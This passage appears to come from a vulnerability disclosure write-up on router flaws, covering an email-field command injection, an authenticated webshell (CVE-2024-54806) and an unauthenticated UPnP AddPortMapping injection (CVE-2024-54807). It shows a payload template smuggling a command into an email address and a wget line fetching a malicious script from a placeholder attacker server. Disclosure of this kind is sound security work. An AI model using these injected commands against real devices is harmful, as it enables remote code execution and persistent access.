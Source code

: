 ``` 
`command_to_executed`@example.com 
``` 

For example, to download a file from an attacker-controlled server: 

``` 
`wget http://ATTACKER-SERVER/malicious_script.sh -P /tmp/`@example.com 

``` 
The provided proof-of-concept script demonstrates the attack vector by: 
1. Authenticating to the device 
2. Setting the malicious email address through the `post.cgi` endpoint 
3. Enabling immediate alert sending 
4. Triggering execution by requesting the `/send_log.cgi` endpoint 

This vulnerability provides a more flexible on-demand execution mechanism that can be repeatedly triggered without waiting for reboots, making it particularly valuable for maintaining active access to a compromised device.

<a name="806"></a>

# Authenticated Webshell (CVE-2024-54806)

CVE-2024-54806 denotes the existence of a webshell at cmd.cgi (0x15c50). All endpoints that interact with post.cgi require authentication and thus, this webshell is authenticated execution. Note that the webshell does a poor job at displaying execution results.

<br>
<p align="center">
<img src="/assets/2025-03-25/8.png"/>
</p>
<br>

<a name="807"></a>

# AddPortMapping Command Injection (CVE-2024-54807)

CVE-2024-54807 is an unauthenticated command execution vulnerability that exists due to the concatenation of arguments passed to a system call in the upnp binary. Because the upnp service on the router runs on the WAN-facing interface, the device can be attacked from both the WAN and the LAN. This is potentially the most critical vulnerability reported due to its wide attack surface, lack of authentication, and low exploit complexity. 

There exists a command injection vulnerability in the AddPortMapping (0x2b530) SOAP action of the `/upnp/control/WANIPConnection1` control. The vulnerability is due to an invalidated concatenation of the “NewInternalClient” provided in the request into an iptables command that is ultimately passed to system (0x2d3bc).

<br>
<p align="center">
<img src="/assets/2025-03-25/9.png"/>
</p>
<br>
